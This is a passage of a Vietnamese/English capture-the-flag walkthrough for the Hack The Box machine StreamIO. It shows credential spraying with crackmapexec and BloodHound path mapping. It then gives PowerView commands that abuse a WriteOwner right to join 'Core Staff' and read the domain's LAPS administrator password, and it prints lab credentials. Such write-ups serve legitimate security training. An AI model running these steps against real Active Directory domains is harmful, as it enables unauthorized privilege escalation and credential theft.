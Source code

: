 crackmapexec smb streamio.htb -u user.txt -p pw.txt

![https://lh7-us.googleusercontent.com/LPs28DEoSw_ftdpUM9c996qmn4aPNst1msiIoJaaT4SnXGDt5PO0qjqLlIN0lPHjr8QxtdvPFMYAXODwL-6MBv8tk-0NWylxtbDj9sEuyGWjLPbIJrE2xRhh3Xx0LACDn9SO0HANVcLd](https://lh7-us.googleusercontent.com/LPs28DEoSw_ftdpUM9c996qmn4aPNst1msiIoJaaT4SnXGDt5PO0qjqLlIN0lPHjr8QxtdvPFMYAXODwL-6MBv8tk-0NWylxtbDj9sEuyGWjLPbIJrE2xRhh3Xx0LACDn9SO0HANVcLd)

user JDgodd login smb thành công nhưng  ko có quyền sd evil-winrm

![https://lh7-us.googleusercontent.com/vzLuz_uY1FgKrDw5U5urNhqhTlBX85ABYf2LChRlp_KOiE_MtTh9ucLrf6NfJugVL2enwmW57-o8J7LkkpwkE1iS2Hwx2ueFciBfTRLPkvGElwgLt7w8FBZcBOrT7YuJNG-CULyfkG4w](https://lh7-us.googleusercontent.com/vzLuz_uY1FgKrDw5U5urNhqhTlBX85ABYf2LChRlp_KOiE_MtTh9ucLrf6NfJugVL2enwmW57-o8J7LkkpwkE1iS2Hwx2ueFciBfTRLPkvGElwgLt7w8FBZcBOrT7YuJNG-CULyfkG4w)

sử dụng sharphound(chạy trên victim) hoặc bloodhound-python(chạy trên kali với cred của 1 acc trên ad) để nén dữ liệu trên ad vào 1 file .zip, ne04j (is a graph database), bloodhound để tham khảo hướng khai thác

![https://lh7-us.googleusercontent.com/QStaTp57A3-D2Rv6il13MdCLyUNnTC-o82H0TXZlmrtbRQohTAX6AZqxvs36qsqU2CQ9-CQ2HK0ioARZZVVa-u7201gu_stup6OheyJDAmEugknARfJUSpTfHXOOA6o2fB22-Xq-WutM](https://lh7-us.googleusercontent.com/QStaTp57A3-D2Rv6il13MdCLyUNnTC-o82H0TXZlmrtbRQohTAX6AZqxvs36qsqU2CQ9-CQ2HK0ioARZZVVa-u7201gu_stup6OheyJDAmEugknARfJUSpTfHXOOA6o2fB22-Xq-WutM)

We can see that the domain user JDgodd has WriteOwner over the group CORE STAFF and CORE STAFF have LAPS read ability on the domain controller, which will allow anyone in the CORE STAFF group to read the LAPS passwords for any user. To abuse this we need to add JDgodd to the CORE STAFF group and then request the LAPS password of the administrator. Since we do not have access to the JDgodd account we need to use PowerShell to add JDgodd into the CORE STAFF group by utilizing PowerView . Download PowerView locally.

![https://lh7-us.googleusercontent.com/KiA9u6ClTPVtN4w-yHOJEC6gSn1RIjV59N0uHpy_P6sWhU9uHnjyg_lGmf1D4HsS6gNQSZmZKGfq81GCRBI-fdhzkbHaSqe5V8ahQNz5CIRLKtD96jygkKSvaIEX93AUEvpZ8hWcMUx2](https://lh7-us.googleusercontent.com/KiA9u6ClTPVtN4w-yHOJEC6gSn1RIjV59N0uHpy_P6sWhU9uHnjyg_lGmf1D4HsS6gNQSZmZKGfq81GCRBI-fdhzkbHaSqe5V8ahQNz5CIRLKtD96jygkKSvaIEX93AUEvpZ8hWcMUx2)

PS C:\Users\nikk37\Desktop> Import-Module .\PowerView.ps1

tạo đối tượng thông tin xác thực cho user JDgodd

PS C:\Users\nikk37\Desktop> $pass = ConvertTo-SecureString 'JDg0dd1s@d0p3cr3@t0r' -AsPlainText -Force

PS C:\Users\nikk37\Desktop> $cred = New-Object System.Management.Automation.PSCredential('streamio.htb\JDgodd', $pass)

thêm JDgodd vào group ‘Core Staff’

PS C:\Users\nikk37\Desktop> Add-DomainObjectAcl -Credential $cred -TargetIdentity "Core Staff" -PrincipalIdentity "streamio\JDgodd"

PS C:\Users\nikk37\Desktop> Add-DomainGroupMember -Credential $cred -Identity "Core Staff" -Members "StreamIO\JDgodd"

kiểm tra đã thêm thành công chưa

![https://lh7-us.googleusercontent.com/2nrcrNB6WzqW8kkrk0wDTnNwzNxsk_177BHoFOhhl7Vvr0Yp5cpZGX9p-IxGIKDkKyVDCnGY2TtABMCuj_XrQ-x3H8j8JMvUUHTSJzFrfwE674vl88hn8VSHJMsccBXaFdwauDsTbSn-](https://lh7-us.googleusercontent.com/2nrcrNB6WzqW8kkrk0wDTnNwzNxsk_177BHoFOhhl7Vvr0Yp5cpZGX9p-IxGIKDkKyVDCnGY2TtABMCuj_XrQ-x3H8j8JMvUUHTSJzFrfwE674vl88hn8VSHJMsccBXaFdwauDsTbSn-)

lấy LAPS password

dùng crackmapexec kiểm tra kết nối, ko login được nhưng lộ pw

![https://lh7-us.googleusercontent.com/_KvYScH4gwfA-uw3Fq4p58Mh69K1KM6WhxU9tCwZbyKNGWbyTbQsw0SDOoB2-QparScl-901DnEmiKRAIw6EnbwarB8pR7r1Tphbyk9w1gN5sLjQMuuy46gSN-8iFd5hjVDjP4oY7x2s](https://lh7-us.googleusercontent.com/_KvYScH4gwfA-uw3Fq4p58Mh69K1KM6WhxU9tCwZbyKNGWbyTbQsw0SDOoB2-QparScl-901DnEmiKRAIw6EnbwarB8pR7r1Tphbyk9w1gN5sLjQMuuy46gSN-8iFd5hjVDjP4oY7x2s)

administrator:n1bru.+g@owl}W

hoặc sử dụng lapsdumper [LAPSDumper/laps.py at main · n00py/LAPSDumper (github.com)](https://github.com/n00py/LAPSDumper/blob/main/laps.py)

![https://lh7-us.googleusercontent.com/TznsUmaJcAUTJQKXC04cCRl9VOGFsGe8urv0OBQxFfg_MhMZ7VrDhRc2-sDhFuHh03ulZlEv6qR5OruQ8I9HNKXDCX0m01JxjyMOwLjZIqjgkryMY7kqo5OglbIoagd5MbLOrjgUrJz4](https://lh7-us.googleusercontent.com/TznsUmaJcAUTJQKXC04cCRl9VOGFsGe8urv0OBQxFfg_MhMZ7VrDhRc2-sDhFuHh03ulZlEv6qR5OruQ8I9HNKXDCX0m01JxjyMOwLjZIqjgkryMY7kqo5OglbIoagd5MbLOrjgUrJz4)

